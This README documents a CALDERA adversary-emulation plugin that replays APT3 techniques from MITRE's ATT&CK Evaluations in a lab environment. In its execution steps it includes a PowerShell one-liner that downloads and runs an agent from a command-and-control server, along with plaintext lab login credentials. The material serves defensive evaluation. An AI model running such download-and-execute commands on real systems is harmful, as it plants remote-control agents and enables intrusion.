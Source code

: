 # CALDERA plugin: Eval

## Overview

A plugin supplying CALDERA with the TTPs used within the ATT&CK Evaluations Round 1 (APT3).
For more information see https://attackevals.mitre.org/about-attack-evaluations.html

1. Plugin Installation
2. Lab Setup
3. Execution

## Installation
Clone the Eval plugin into the caldera/plugin directory
```commandline
git clone https://github.com/mitre-attack/evals_caldera.git
```
Add Eval plugin to CALDERA config `conf/local.yml`
```yaml
plugins:
  - evals_caldera
```

Fill out facts in `data/facts/` specific to your setup.

## Environment Setup
[Full Round 1 Environment](https://attackevals.mitre.org/methodology/round1/environment.html)

Minimum requirements:
- Initial host exists within a windows domain
- Remote shared drive is mounted

## Execution

Please read the [full documentation](https://github.com/mitre/caldera/wiki/Plugins-evals) for this plugin.

## The Shire Mordor Environment

### Setup
[Shire CloudFormation Deployment](https://blacksmith.readthedocs.io/en/latest/mordor_shire.html)

[Shire Mordor Environment](https://mordor.readthedocs.io/en/latest/mordor_shire.html)

### Execution

1. RDP to the public ip of IT001.shire.com
   * Login - Administrator:P1ls3n! 
   * Launch an admin CMD
   * Close out of the RDP sesion but do not logout the Administrator
2. RDP to the public ip of IT001.shire.com
   * Login - pgustavo:W1n1!2019
   * Launch an admin CMD and a non-admin PowerShell
   * Execute the PowerShell command: `$url="http://172.18.39.8:8888/file/download";$wc=New-Object System.Net.WebClient;$wc.Headers.add("platform","windows");$wc.Headers.add("file","sandcat.go");$output="C:\Users\Public\sandcat.exe";$wc.DownloadFile($url,$output);C:\Users\Public\sandcat.exe -server http://172.18.39.8:8888 -group evals_caldera -v;`
   * The 54ndc47 agent should now be checked in with CALDERA (172.18.39.8)

3. Browse to the CALDERA GUI
   * Login - wardog:B3tt3r!
   * Start an operation using the [ATT&CK Eval APT3 - Full](https://github.com/d4weiss/evals_caldera/blob/master/data/adversaries/ef93dd1b-809b-4a0b-b686-fef549cabbe4.yml) adversary profile

